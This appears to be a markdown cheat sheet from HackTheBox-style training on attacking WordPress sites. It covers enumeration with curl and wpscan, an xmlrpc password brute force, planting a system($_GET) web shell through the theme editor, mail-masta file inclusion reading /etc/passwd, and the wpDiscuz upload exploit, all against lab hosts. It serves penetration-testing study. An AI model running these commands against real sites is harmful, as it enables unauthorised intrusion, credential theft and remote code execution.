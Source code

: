 ##### General Information
```
L3pr3ch4un@htb[/htb]$ tree -L 1 /var/www/html
.
├── index.php
├── license.txt
├── readme.html
├── wp-activate.php
├── wp-admin
├── wp-blog-header.php
├── wp-comments-post.php
├── wp-config.php
├── wp-config-sample.php
├── wp-content
├── wp-cron.php
├── wp-includes
├── wp-links-opml.php
├── wp-load.php
├── wp-login.php
├── wp-mail.php
├── wp-settings.php
├── wp-signup.php
├── wp-trackback.php
└── xmlrpc.php
```

| File/Directory  | Description                                                                                                                                                                                                      |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| index.php       | Homepage of WordPress.                                                                                                                                                                                           |
| license.txt     | Contains useful information such as the version of WordPress installed.                                                                                                                                          |
| wp-activate.php | Used for the email activation process when setting up a new WordPress site.                                                                                                                                      |
| wp-admin        | Folder containing the login page for administrator access and the backend dashboard. Login paths: /wp-admin/login.php, /wp-admin/wp-login.php, /login.php, /wp-login.php. This file can be renamed for security. |
| xmlrpc.php      | File representing a feature of WordPress that enables data transmission using HTTP and XML. Replaced by the WordPress REST API.                                                                                  |
| wp-config.php   | Configuration file containing database connection details, authentication keys, salts, and other settings. Can activate DEBUG mode for troubleshooting.                                                          |
| wp-content      | Main directory for storing plugins and themes. The uploads/ subdirectory typically stores uploaded files.                                                                                                        |
| wp-includes     | Directory containing core files such as certificates, fonts, JavaScript files, and widgets. Excludes administrative components and themes.                                                                       |

| Role          | Description                                                                                                                                            |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Administrator | This user has access to administrative features within the website. This includes adding and deleting users and posts, as well as editing source code. |
| Editor        | An editor can publish and manage posts, including the posts of other users.                                                                            |
| Author        | Authors can publish and manage their own posts.                                                                                                        |
| Contributor   | These users can write and manage their own posts but cannot publish them.                                                                              |
| Subscriber    | These are normal users who can browse posts and edit their profiles.                                                                                   |

#### Enumeration

**Version Fingerprinting**

```
# Wordpress version
L3pr3ch4un@htb[/htb]$ curl -s -X GET http://ir.inlanefreight.com | grep '<meta name="generator"'

# Search for JavaScript files with version parameters
curl -s https://your-wordpress-site.com | grep -Eo 'src="[^"]+\.js\?ver=[^"]+"'

# Search for CSS files with version parameters
curl -s https://your-wordpress-site.com | grep -Eo 'href="[^"]+\.css\?ver=[^"]+"'
```

**Themes and Plugins**
```
# Plugins
`L3pr3ch4un@htb[/htb]$ curl -s -X GET http://ir.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2`

# Themes
`L3pr3ch4un@htb[/htb]$ curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2`


`L3pr3ch4un@htb[/htb]$ curl -I -X GET http://blog.inlanefreight.com/wp-content/plugins/mail-masta`
```
If the content does not exist, we will receive a 404 Not Found error.

**Directory indexing**

`L3pr3ch4un@htb[/htb]$ curl -s -X GET http://blog.inlanefreight.com/wp-content/plugins/mail-masta/ | html2text`

**Wpscan**

`L3pr3ch4un@htb[/htb]$ sudo wpscan --url http://ir.inlanefreight.local --enumerate --api-token dEOFB<SNIP>`

**Xmlrpc**
`[!bash!]$ curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://ir.inlanefreight.local/xmlrpc.php`


**Enumerate Users**

`L3pr3ch4un@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php`

`wpscan –url http://example.com –enumerate u`
Api:*/wp-json/wp/v2/users*

**Password Brute force**

`L3pr3ch4un@htb[/htb]$ sudo wpscan --password-attack xmlrpc -t 20 -U ilfreightwp -P /usr/share/wordlists/rockyou.txt --url http://ir.inlanefreight.local`

**Code Execution**

> [!NOTE] Use Alternative theme like  Twenty Nineteen
> To prevent disruption in working of website it is recommended to use another theme that is not currently in use.

`Appearence`>`Theme Editor`>`404.php`>`system($_GET[0]);`

```
L3pr3ch4un@htb[/htb]$ curl http://10.10.110.100/wp-content/themes/twentynineteen/404.php?0=id
```
`msf6 > use exploit/unix/webapp/wp_admin_shell_upload`

### Vulnerabilities

> [!NOTE] Web Archive comes handy!
> We can use the waybackurls tool to look for older versions of a target site using the Wayback Machine. Sometimes we may find a previous version of a WordPress site using a plugin that has a known vulnerability. If the plugin is no longer in use but the developers did not remove it properly, we may still be able to access the directory it is stored in and exploit a flaw.

**Vulnerable Plugins - mail-masta**

`L3pr3ch4un@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

**Vulnerable Plugins - wpDiscuz**

`version number (7.0.4)`

https://www.exploit-db.com/exploits/49967

`L3pr3ch4un@htb[/htb]$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1`

`L3pr3ch4un@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id`

